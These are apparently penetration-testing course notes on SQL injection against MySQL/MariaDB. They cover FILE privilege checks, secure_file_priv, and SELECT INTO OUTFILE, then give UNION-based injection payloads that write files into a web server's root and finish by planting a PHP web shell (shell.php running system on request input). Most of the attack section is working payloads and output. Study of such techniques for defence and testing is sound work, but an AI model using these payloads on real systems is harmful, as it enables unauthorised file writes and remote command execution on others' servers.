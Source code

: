 ## Write File Privileges
* To be able to write files to the back-end server using a MySQL database, we require three things
	1.  User with `FILE` privilege enabled
	2.  MySQL global `secure_file_priv` variable not enabled
	3.  Write access to the location we want to write to on the back-end server

#### secure_file_priv
* Used to determine where to read/write files from
* Empty value = entire file system, otherwise only the set path
* `NULL` means we cannot read/write from any directory
* MariaDB defaults to empty, however MySQL uses `/var/lib/mysql-files`

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

* We can use  `variable_name` and `variable_value` from the  `INFORMATION_SCHEMA` database

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

![[../../Screenshots/secure_file_priv.jpg]]

* Here our result is empty meaning that we can read/write files to any location

## SELECT INTO OUTFILE
* The [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) statement can be used to write data from select queries into files

```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

```sh
$ cat /tmp/credentials 

1       admin   392037dbba51f692776d6cefb6dd546d
2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

```sh
$ cat /tmp/test.txt 

this is a test
```

* Files will be created as the associated user, here `mysql`

```sh
$ ls -la /tmp/test.txt 

-rw-rw-rw- 1 mysql mysql 15 Jul  8 06:20 /tmp/test.txt
```

**Tip**: Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data.

## Writing Files through SQL Injection
```sql
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
```

**Note:** To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use `load_file` to read the server configuration, like Apache's configuration found at `/etc/apache2/apache2.conf`, Nginx's configuration at `/etc/nginx/nginx.conf`, or IIS configuration at `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`, or we can search online for other possible configuration locations. Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using [this wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or [this wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

## Writing a Web Shell
```php
<?php system($_REQUEST[0]); ?>
```

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```